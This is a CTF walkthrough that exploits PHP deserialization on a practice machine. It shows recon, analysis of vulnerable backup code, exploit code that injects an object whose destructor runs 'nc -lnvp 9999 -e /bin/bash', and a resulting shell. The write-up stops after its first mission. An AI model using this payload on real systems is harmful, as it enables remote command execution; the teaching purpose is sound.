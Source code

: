<div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")
looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")
so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")
as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")
just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")
 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")
 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")
 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png
![alt text](img/ex.png "exploit code")
code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png
![alt text](img/8.png "serialized data")
and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")
and voila we get our shell fisrt missin completed successfully


 
